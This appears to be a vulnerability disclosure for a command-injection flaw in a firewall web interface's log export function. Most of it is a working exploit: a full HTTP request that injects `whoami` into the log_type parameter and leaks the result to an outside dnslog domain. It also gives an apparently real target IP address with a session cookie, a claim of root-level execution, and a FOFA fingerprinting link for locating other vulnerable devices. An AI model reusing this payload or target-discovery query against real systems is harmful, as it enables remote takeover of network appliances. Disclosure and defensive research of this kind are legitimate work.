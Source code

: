 # CVE
In `webui/modules/log/fw_security.mds` after accepting the log_type parameter, without any filtering, it is directly spliced into the $table variable, and passed into exec, resulting in code execution.
![image](https://github.com/night-0p/CVE/assets/54882616/3fd651bf-98e3-4e86-a844-0f42f3099088)
test steps:
1， First obtain a dnslog domain name through http://dnslog.cn/
2，send exp:\n
GET /webui/?g=log_fw_export&log_type=%26/bin/?ing${IFS}`whoami`.9ud6dz.dnslog.cn HTTP/1.1
Host: 183.230.154.102:4443
Cookie: USGSESSID=8944257a6431dd049e456e23cf40833b
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://183.230.154.102:4443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://183.230.154.102:4443/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
The following is the result of executing `whoami`. root authority.
<img width="1247" alt="image" src="https://github.com/night-0p/CVE/assets/54882616/4fc5085b-9000-4283-a242-b557c69b2bba">
this Website fingerprinting:
https://fofa.info/result?qbase64=YXBwPSLlronmgZLkv6Hmga8t5piO5b6h5a6J5YWo572R5YWzIg%3D%3D
